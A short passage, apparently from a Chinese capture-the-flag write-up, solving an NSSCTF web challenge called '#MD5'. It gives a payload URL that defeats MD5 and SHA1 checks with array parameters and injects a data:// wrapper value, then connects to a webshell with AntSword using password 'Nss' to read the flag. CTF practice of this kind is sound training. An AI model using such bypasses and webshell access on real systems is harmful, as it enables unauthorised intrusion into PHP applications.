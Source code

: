 #MD5 
```url
http://node6.anna.nssctf.cn:28922/?md5_1[]=1&md5_2[]=2&sha1_1[]=1&sha1_2[]=2&new_player=data://text/plain,Welcome to NSSCTF!!!
```

蚁剑连接，密码 `Nss`

flag 在根目录